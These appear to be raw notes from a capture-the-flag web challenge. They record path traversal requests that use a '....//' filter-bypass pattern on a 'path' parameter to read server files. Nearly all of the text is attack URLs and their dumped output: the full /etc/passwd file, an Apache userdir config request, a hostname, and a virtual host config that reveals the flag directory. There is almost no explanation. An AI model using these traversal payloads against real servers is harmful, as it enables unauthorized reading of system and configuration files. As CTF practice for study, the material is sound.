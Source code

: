 http://178.62.48.181/~rooney/?path=....//files/rooney
http://178.62.48.181/~rooney/?path=....//....//....//....//etc/passwd


<pre>
<center>
<h1>Welcome to rooney page</h1>
<img src=files/mathilda.jpg height="450"></img>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:109::/var/run/dbus:/bin/false
lxd:x:107:65534::/var/lib/lxd/:/bin/false
uuidd:x:108:113::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
rooney:x:1000:1000:,,,:/home/rooney:/bin/false
th1sizveryl0ngus3rn4me:x:1001:1001:,,,:/home/th1sizveryl0ngus3rn4me:/bin/bash

<a href='?path=rooney'>file</a>
--

view-source:http://178.62.48.181/~rooney/?path=....//....//....//....//etc/apache2/mods-enabled/userdir.conf

--

http://178.62.48.181/~rooney/?path=....//....//....//....//flag/html/....//....//etc/hostname

tilda

--


view-source:http://178.62.48.181/~rooney/?path=....//....//....//....//etc/apache2/vhost/host.conf
<pre>
<center>
<h1>Welcome to rooney page</h1>
<img src=files/mathilda.jpg height="450"></img>
<VirtualHost *:80>
	# The ServerName directive sets the request scheme, hostname and port that
	# the server uses to identify itself. This is used when creating
	# redirection URLs. In the context of virtual hosts, the ServerName
	# specifies what hostname must appear in the request's Host: header to
	# match this virtual host. For the default virtual host (this file) this
	# value is not decisive as it is used as a last resort host regardless.
	# However, you must set it for any further virtual host explicitly.
	#ServerName www.example.com

	ServerAdmin webmaster@localhost
	DocumentRoot /flag/html/
	ServerName flagishere
	

	# Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
	# error, crit, alert, emerg.
	# It is also possible to configure the loglevel for particular
	# modules, e.g.
	#LogLevel info ssl:warn

	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined

	# For most configuration files from conf-available/, which are
	# enabled or disabled at a global level, it is possible to
	# include a line for only one particular virtual host. For example the
	# following line enables the CGI configuration for this host only
	# after it has been globally disabled with "a2disconf".
	#Include conf-available/serve-cgi-bin.conf
</VirtualHost>

<Directory /flag/html/>
        Options +Indexes
        AllowOverride All
        Require all granted
        Order Allow,Deny
        Allow from all
</Directory>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet

<a href='?path=rooney'>file</a>

--

